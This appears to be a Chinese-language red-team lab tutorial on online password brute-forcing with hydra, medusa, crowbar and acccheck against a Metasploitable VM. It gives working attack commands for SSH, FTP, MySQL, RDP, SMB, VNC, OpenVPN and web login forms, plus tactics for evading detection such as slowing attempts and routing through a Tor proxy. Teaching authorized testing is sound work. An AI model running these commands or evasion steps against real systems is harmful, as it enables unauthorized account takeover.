

# 01-在线密码攻击大师课

ArchStrike工具组：hydra, medusa, crowbar, acccheck
预计学习时间：4-6小时 | 难度：中级

## 目录

- [[#一、在线密码攻击概述|一、在线密码攻击概述]]
- [[#二、Hydra 核心操作|二、Hydra 核心操作]]
 - [[#2.1 基础SSH爆破|2.1 基础SSH爆破]]
 - [[#2.2 大规模爆破与恢复|2.2 大规模爆破与恢复]]
 - [[#2.3 HTTP表单爆破|2.3 HTTP表单爆破]]
 - [[#2.4 多协议爆破速查|2.4 多协议爆破速查]]
- [[#三、Medusa 攻击实践|三、Medusa 攻击实践]]
- [[#四、Crowbar 与 AccCheck|四、Crowbar 与 AccCheck]]
- [[#五、多工具协同与报告|五、多工具协同与报告]]
- [[#六、防御检测与速率规避|六、防御检测与速率规避]]
- [[#附录：常用命令速查表|附录：常用命令速查表]]

## 一、在线密码攻击概述

在线密码攻击是红队获取初始访问的核心手段。与离线破解不同，在线攻击直接与目标服务交互，每次尝试都会在网络中留下痕迹。

在线攻击流程:



> **警告**：仅在你拥有授权的系统上练习！

**实验环境**：
- 攻击机: ArchStrike Linux (192.168.56.1)
- 目标机: Metasploitable 2/3 (192.168.56.101)
- 确保目标机SSH、FTP等服务已启用

在线攻击的防御机制和对抗方法参见 [[../archstrike-base教学/05-密码攻击与破解技术|密码攻击与破解技术基础]]。

## 二、Hydra 核心操作

### 2.1 基础SSH爆破

Step 1: 前期侦察 — 扫描目标开放端口：

```bash
nmap -sV -p- -T4 192.168.56.101
```

Step 2: 根据扫描结果，记录开放的服务。例如：
- 22/tcp open ssh OpenSSH 5.3p1
- 21/tcp open ftp vsftpd 2.3.4
- 445/tcp open netbios-ssn Samba smbd
- 3306/tcp open mysql MySQL 5.1.73

Step 3: 准备密码字典：

```bash
# 使用rockyou.txt（约1400万条）
ls -lh /usr/share/wordlists/rockyou

# 如果文件是.gz格式，先解压：
sudo gunzip /usr/share/wordlists/rockyou.gz

# 创建一个小型测试字典用于快速验证
head -100 /usr/share/wordlists/rockyou > /tmp/test_pass
```

Step 4: 创建目标用户名列表：

```bash
cat > /tmp/target_users << 'EOF'
root
admin
msfadmin
user
postgres
service
backup
EOF
```

Step 5: SSH爆破：

```bash
hydra -L /tmp/target_users -P /tmp/test_pass \
 -o /tmp/hydra_ssh -t 8 ssh://192.168.56.101
```

Step 6: 查看SSH爆破结果：

```bash
cat /tmp/hydra_ssh
```

Step 7: FTP爆破：

```bash
hydra -L /tmp/target_users -P /tmp/test_pass \
 -o /tmp/hydra_ftp ftp://192.168.56.101
```

Step 8: MySQL爆破：

```bash
hydra -L /tmp/target_users -P /tmp/test_pass \
 -o /tmp/hydra_mysql mysql://192.168.56.101
```

Step 9: 如果发现了有效凭证，尝试登录：

```bash
ssh msfadmin@192.168.56.101
# 或
mysql -h 192.168.56.101 -u root -p
```

### 2.2 大规模爆破与恢复

Step 10: 启动大规模爆破任务（使用完整rockyou.txt）：

```bash
hydra -l msfadmin -P /usr/share/wordlists/rockyou \
 -t 16 -o /tmp/full_brute ssh://192.168.56.101
```

Step 11: 在运行中按 `Ctrl+C` 中断。Hydra 保存当前进度：

```
[*] The session file ./hydra.restore was written.
```

Step 12: 检查恢复文件内容：

```bash
cat hydra.restore
```

Step 13: 恢复并继续爆破：

```bash
hydra -R
```

Step 14: 在另一个终端中查看实时结果：

```bash
watch -n 2 "tail -5 /tmp/full_brute"
```

### 2.3 HTTP表单爆破

Step 15: 在浏览器中打开DVWA登录页面（如果目标运行DVWA）：
打开 `http://192.168.56.101/dvwa/login.php`，或使用任何有登录表单的Web应用。

Step 16: 在浏览器开发者工具（F12）中，找到 Network 标签，输入测试用户名和密码后点击登录，捕获POST请求。

Step 17: 识别表单参数和失败特征。假设POST数据为：
```
username=test&password=test&Login=Login
```
失败时返回: `Login failed`

Step 18: 执行HTTP-POST表单爆破：

```bash
hydra -l admin -P /usr/share/wordlists/rockyou \
 192.168.56.101 http-post-form \
 "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
```

Step 19: 观察Hydra输出，找到成功登录的凭证。

### 2.4 多协议爆破速查

Hydra 支持 50+ 协议。常用协议语法：

```bash
# SSH
hydra -l admin -P pass.txt ssh://192.168.1.1

# FTP
hydra -l admin -P pass.txt ftp://192.168.1.1

# HTTP Basic Auth
hydra -l admin -P pass.txt http-get://192.168.1.1/protected/

# MySQL
hydra -l root -P pass.txt mysql://192.168.1.1

# RDP
hydra -l administrator -P pass.txt rdp://192.168.1.1

# SMB
hydra -l administrator -P pass.txt smb://192.168.1.1

# Telnet
hydra -l root -P pass.txt telnet://192.168.1.1

# Postgres
hydra -l postgres -P pass.txt postgres://192.168.1.1

# HTTPS Form
hydra -l admin -P pass.txt 192.168.1.1 https-post-form "/login.php:user=^USER^&pass=^PASS^:F=Invalid"
```

IPv6 目标加方括号：`hydra -l root -P pass.txt ssh://[fe80::1]`

通过代理攻击：`hydra -l admin -P pass.txt -- socks5://127.0.0.1:1080 ssh://target`

## 三、Medusa 攻击实践

Medusa 是另一款强大的在线密码攻击工具，模块化设计支持多种协议。

```bash
# 查看可用模块
medusa -d

# 查看指定模块帮助
medusa -M ssh -q

# SSH爆破
medusa -h 192.168.56.101 -U /tmp/target_users \
 -P /tmp/test_pass -M ssh -O /tmp/medusa_ssh

# 多线程加速
medusa -h 192.168.56.101 -U users.txt -P pass.txt \
 -M ssh -t 10 -O /tmp/output

# 指定端口
medusa -h 192.168.56.101 -U users.txt -P pass.txt \
 -M ssh -n 2222 -O /tmp/output
```

Medusa vs Hydra 对比：

| 特性 | Hydra | Medusa |
|------|-------|--------|
| 协议数量 | 50+ | 20+ |
| 恢复机制 | 内置 | 不支持 |
| 多线程 | 支持 | 支持 |
| 速度快 | 稍快 | 稍慢但更稳 |
| 社区支持 | 更广泛 | 较小 |

## 四、Crowbar 与 AccCheck

### 4.1 Crowbar — RDP/VNC专用

Crowbar 专注于 RDP、VNC、OpenVPN 等协议的爆破，支持从Nmap XML导入目标。

```bash
# RDP爆破
crowbar -b rdp -s 192.168.56.102/32 -u Administrator \
 -C /usr/share/wordlists/rockyou -o /tmp/rdp_crowbar.log

# VNC爆破（指定端口）
crowbar -b vnc -s 192.168.56.102/32 -p 5901 \
 -C /tmp/vnc_pass.txt -o /tmp/vnc_crowbar.log

# OpenVPN爆破
crowbar -b openvpn -s 192.168.56.102/32 -u vpnuser \
 -C /tmp/vpn_pass.txt -k /path/to/key -m /path/to/cert
```

### 4.2 AccCheck — SMB认证测试

AccCheck 专门测试SMB共享的用户凭据和空会话。

```bash
# SMB凭据测试
acccheck -t 192.168.56.101 -u Administrator \
 -P /tmp/test_pass -o /tmp/smb_acccheck

# 测试空会话
acccheck -t 192.168.56.101

# 批量目标
acccheck -T targets.txt -u administrator -p password123
```

## 五、多工具协同与报告

Step 20-23: 汇总所有工具的发现，整理成统一的凭证报告：

```bash
echo "=== 在线密码攻击汇总报告 ===" > /tmp/final_report
echo "目标: 192.168.56.101" >> /tmp/final_report
echo "--- Hydra SSH ---" >> /tmp/final_report
cat /tmp/hydra_ssh >> /tmp/final_report
echo "--- Medusa SSH ---" >> /tmp/final_report
cat /tmp/medusa_ssh >> /tmp/final_report
echo "--- AccCheck SMB ---" >> /tmp/final_report
cat /tmp/smb_acccheck >> /tmp/final_report
```

## 六、防御检测与速率规避

### 6.1 主动防御机制

红队必须了解蓝队的防御手段：

- **Fail2Ban**: 检测多次失败尝试后封禁IP
- **账户锁定策略**: 多次失败后锁定账户
- **双因素认证**: 即使知道密码也无法登录
- **速率限制**: 对登录失败尝试进行限流
- **非标准端口**: 更改默认服务端口（安全通过模糊性）
- **SSH密钥认证**: 禁用密码登录，仅用密钥

### 6.2 规避策略

```bash
# 降低线程数，模拟正常登录
hydra -l user -P pass.txt -t 2 ssh://target

# 分散攻击时间
hydra -l user -P pass.txt -c 100 ssh://target # 每100次暂停

# 使用代理隐藏来源
hydra -l user -P pass.txt -- socks5://127.0.0.1:9050 ssh://target
```

### 6.3 监视和检测爆破攻击

作为红队成员，理解蓝队如何检测攻击有助于改进技术：

- **日志分析**: `/var/log/auth.log` (Linux), 安全事件日志 (Windows)
- **入侵检测**: Snort/Suricata规则检测高频SSH连接
- **网络流量**: 短时间内大量到单一端口的小包流量
- **SIEM告警**: 阈值触发的自动化告警

## 附录：常用命令速查表

**Hydra**

```bash
# SSH爆破
hydra -l [user] -P [passfile] ssh://[IP]
# 多用户
hydra -L [users] -P [passfile] ssh://[IP]
# 恢复
hydra -R [restorefile]
# 多线程
hydra -t [n] ...
# 输出
hydra -o [outfile] ...
# 详细模式
hydra -V ...
# HTTP表单
hydra -l [user] -P [passfile] [IP] http-post-form "[path]:[params]:[fail]"
# 代理
hydra ... -- socks5://127.0.0.1:1080 ...
# 批量目标
hydra ... -M [targetlist] ...
# IPv6
hydra ... ssh://[fe80::1]%eth0
```

**Medusa**

```bash
# SSH爆破
medusa -h [IP] -u [user] -P [passfile] -M ssh
# 模块列表
medusa -d
# 模块帮助
medusa -M [module] -q
# 多线程
medusa -t [n] ...
# 输出
medusa -O [outfile] ...
```

**Crowbar**

```bash
# RDP
crowbar -b rdp -s [IP]/32 -u [user] -C [passfile]
# VNC
crowbar -b vnc -s [IP]/32 -p [port] -C [passfile]
# OpenVPN
crowbar -b openvpn -s [IP]/32 -u [user] -C [passfile] -k [key] -m [cert]
```

**AccCheck**

```bash
# SMB测试
acccheck -t [IP] -u [user] -P [passfile]
# 空会话
acccheck -t [IP]
```

---

完成在线密码攻击教程。
下一教程：[[02-离线密码破解大师课|02-离线密码破解大师课]]

[[../总目录与快速查询|← 返回总目录]]
